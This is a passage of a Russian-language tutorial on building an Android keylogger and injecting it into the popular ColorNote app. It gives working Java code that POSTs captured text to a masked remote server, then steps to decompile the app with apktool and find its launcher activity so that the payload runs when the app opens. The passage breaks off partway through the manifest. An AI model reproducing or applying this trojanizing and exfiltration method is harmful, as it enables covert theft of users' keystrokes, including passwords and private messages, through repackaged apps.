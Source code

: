 ```SendService``` - просто отправляет данные на сервер.

```java
private void sendResult(String text) {

Log.d(TAG, "Sending result to server");

HttpURLConnection urlConnection = null;

try {
    int length = text.length();

    URL url = new URL("http://xxxxxxxxx");
    urlConnection = (HttpURLConnection) url.openConnection();
    urlConnection.setConnectTimeout(30 * 1000);

    urlConnection.setRequestMethod("POST");
    urlConnection.setDoOutput(true);
    urlConnection.setDoInput(false);
    urlConnection.setRequestProperty("Content-Type", "text/plain");
    urlConnection.setRequestProperty("Content-Length", Integer.valueOf(length).toString());

    DataOutputStream request = new DataOutputStream(urlConnection.getOutputStream());
    Log.d(TAG, "Sending " + text);
    request.write(text.getBytes(StandardCharsets.UTF_8));
    request.flush();
    request.close();

    int respCode = urlConnection.getResponseCode();
    Log.d(TAG, "Return status code: " + respCode);
    urlConnection.disconnect();
} catch (Exception e) {
    Log.d(TAG, e.getMessage());
}

}
```

```MainActivity``` - нам нужен лишь для получения smali кода вызова основного метода.

Собираем apk, декомпилируем, с помощью ```apktool```, и пока оставляем так.

## Внедряем payload

Зайдем в Play Market и скачиваем достаточно популярное приложение [ColorNote](https://play.google.com/store/apps/details?id=com.socialnmobile.dictapps.notepad.color.note). Декомпилируем его, с помощью ```apktool```. Открываем манифест, чтобы найти главный активити. Как говорилось раннее, нам это необходимо для того, чтобы наш кейлоггер работал сразу, после запуска приложения.

```xml
<activity android:configChanges="keyboard|keyboardHidden|orientation|screenLayout|screenSize|smallestScreenSize|uiMode" 

  android:label="@string/app_name" android:name="com.socialnmobile.colornote.activity.Main" 

  android:taskAffinity="colornote.task.main" android:theme="@style/Theme.NoTitle.Light" 

  android:windowSoftInputMode="adjustPan">
    <intent-filter>
	<action android:name="android.intent.action.MAIN"/>
	<category android:name="android.intent.category.LAUNCHER"/>
	<category android:name="android.intent.category.MULTIWINDOW_LAUNCHER"/>
	<category android:name="android.intent.category.MONKEY"/>
    </intent-filter>
    <intent-filter>
```